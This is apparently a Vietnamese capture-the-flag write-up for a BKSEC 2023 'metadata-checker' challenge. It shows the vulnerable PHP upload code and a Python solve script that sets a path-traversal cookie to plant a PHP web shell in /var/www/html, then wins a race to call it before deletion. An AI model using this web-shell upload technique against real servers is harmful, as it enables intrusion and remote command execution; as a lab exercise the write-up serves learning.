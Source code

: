 ![alt](assets/1.jpg)

#####tl;dr: file upload, php web shell, path traversal, racing?

![alt](assets/2.jpg)

Source code không có docker, cũng có ít chức năng nên mình chạy trực tiếp luôn (mình sẽ đặt var_dump hoặc echo ở một số chỗ và bỏ phần HTML để tiện cho việc theo dõi trong wu này, phần $uploadpath mình sẽ sửa lại cho tiện với máy hiện tại, không ảnh hưởng nhiều tới đề bài)

```php
<?php
error_reporting(0);
setcookie("user", "BKSEC_guest", time() + (86400 * 30), "/"); // Cookie will be valid for 30 days

if (isset($_FILES) && !empty($_FILES)) {
    // $uploadpath = "/var/tmp/"; // đề gốc
    $uploadpath = "/tmp/";
    $error = "";
    
    $timestamp = time();

    $userValue = $_COOKIE['user'];
    $target_file = $uploadpath . $userValue . "_" . $timestamp . "_" . $_FILES["image"]["name"];
    var_dump($target_file);
    

    move_uploaded_file($_FILES["image"]["tmp_name"], $target_file);
    
    // không cần quan tâm
    if ($_FILES["image"]["size"] > 1048576) {
        $error .= '<p class="h5 text-danger">Maximum file size is 1MB.</p>';
    } elseif ($_FILES["image"]["type"] !== "image/jpeg") {
        $error .= '<p class="h5 text-danger">Only JPG files are allowed.</p>';
    } else {
      $exif = exif_read_data($target_file, 0, true);

      if ($exif === false) {
          $error .= '<p class="h5 text-danger">No metadata found.</p>';
      } else {
          $metadata = '<table class="table table-striped">';
          foreach ($exif as $key => $section) {
              $metadata .=
                  '<thead><tr><th colspan="2" class="text-center">' .
                  $key .
                  "</th></tr></thead><tbody>";
              foreach ($section as $name => $value) {
                  $metadata .=
                      "<tr><td>" . $name . "</td><td>" . $value . "</td></tr>";
              }
              $metadata .= "</tbody>";
          }
          $metadata .= "</table>";
      }
    }
    //
} 
?>
// HTML...
<?php
  // I want to show a loading effect within 1.5s here but don't know how
  sleep(1.5);
  // This might be okay..... I think so
  // My teammates will help me fix it later, I hope they don't forget that
  echo $error;
  echo $metadata;
  unlink($target_file);
?>

// HTML...
```
Sau khi upload. file sẽ được move tới
`$uploadpath . $_COOKIE['user'] . "_" . time() . "_" . $_FILES["image"]["name"]` mà không check chủng gì, vì vậy ta có thể upload file .php, cùng với `$_COOKIE['user']` có thể control => ta có thể path traversal để upload file tới web root mới có thể chạy web shell

Khó khăn nhỏ ở đây có thể là `time()` được nối vào tên file và vị trí của web root, nhưng ta có thể code script chạy là được

Phần `if` sau đó không cần quan tâm do file đã nằm trên server rồi

Sau đó sleep 1.5s và xóa file

=> Vậy ta cần truy cập web shell và chạy lệnh trước khi file bị xóa + biết chính xác tên file


solve.py
```python
import requests
import time

command = "id"

PROXY = {
  "http":"http://127.0.0.1:8010",
  "https":"http://127.0.0.1:8010"
}

url = "http://192.168.116.145:1337"

filename = "clgt.php"

uploadfolders = ["var/www/html/"]
# uploadfolders = ["home/pink/ctf/bkctf2023/web/metadata-checker/metadata-checker/"]
for uploadfolder in uploadfolders:
  timestamp = str(int(time.time()))
  try:
    req = requests.post(
      url = url + "/index.php",
      proxies = PROXY,
      files={
          "image": (filename, f"<?php system('{command}')?>"),
      },
      cookies={
        "user": "../../../../../../" + uploadfolder
      },
      timeout=0.8 # timeout request để gọi shell trước khi bị xóa
      )
  except:
    pass

  req1 = requests.get(
    url = url + "/_" + timestamp + "_" + filename,
    proxies = PROXY,
  )

  if req1.status_code == 200:
    print(uploadfolder)
    print(req1.text)
```

Về phần web root, ban đầu mình định thử một loạt luôn nhưng may mà nó là đường dẫn quen thuộc `/var/www/html` nên ăn luôn phát đầu ♪(´▽｀)


Ở đây mình chạy trên lab luôn, nếu chạy trên server thật thì các bạn có thể upload một cái ảnh trước để căn xem độ lệch của timestamp là bao nhiêu để cộng trừ
![alt](assets/3.jpg)
![alt](assets/4.jpg)


hoặc có thể dùng [Picture Metadata webshell](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Picture%20Metadata) để vừa check timestamp vừa chạy command luôn

![alt](assets/5.jpg)

![alt](assets/6.jpg)

hoặc code đa luồng, tùy